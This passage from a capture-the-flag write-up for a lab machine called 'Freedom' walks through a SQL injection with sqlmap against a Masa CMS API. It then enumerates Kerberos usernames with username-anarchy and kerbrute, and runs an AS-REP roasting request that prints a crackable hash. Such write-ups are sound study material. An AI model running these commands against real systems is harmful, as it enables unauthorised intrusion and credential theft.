 If we try to dump the password hashes of each user, none of them will crack. We need to take a different route. Let's dump the first and last name of each user and compile a username list to try against the Domain Controller.

```bash
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'*&previewID=x" -D dbMasaCMS -T tusers --dump -C Fname,Lname --batch

+-----------+-------+
| Fname     | Lname |
+-----------+-------+
| Admin     | User  |
| Esmeralda | Tylar |
| George    | Smith |
| Gregory   | Davis |
| Jennifer  | Jones |
| Justin    | Bret  |
+-----------+-------+
```

We create a file `names` that holds the names we dumped and then we will use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to create a wordlist.

```bash
./username-anarchy/username-anarchy --input-file ./names > usernames
```

Then, let's bruteforce possible usernames using `kerbrute`.

```bash
kerbrute -domain freedom.htb -users usernames 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Valid user => e.tylar [NOT PREAUTH]
[*] Valid user => j.bret
[*] No passwords were discovered :'(
```

# Foothold

 We now, have a valid user name on the domain, `e.tylar`.This user, has also Kerberos pre-authentication disabled. 

```bash
impacket-GetNPUsers -no-pass freedom.htb/e.tylar              
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for e.tylar

$krb5asrep$23$e.tylar@FREEDOM.HTB:078b341d8a86d616cbb1d3308f0a218b$555e533fd651d24307d7eaca1e8e5b6f6a41d44e5db4de1b2bf49afb5ab10641addb6613ed0678daac36082e424687172734855a86fe278388528f9f62e7b65217dd1c3289f085bd8f98dde198ffa2c320ff89400545e0ea786a7fcddab99f0ee9428244d9cda3ce21444fbe9695b257e193b9f0946677a263b11e9df9e7ef8d155716291074d4bbdaf90d85031510f301706db75db6cafb88253f4a88bf8f621fa239df59915b392a256ff40cdf7189950a395dfa02bb2aa796d4d85a515153f34fa7c7b6d90b8f71afecd888c5ff75c092d3f1099e0a7b556f5934bbae6cb9ce406a7a92b0163c55b2
```
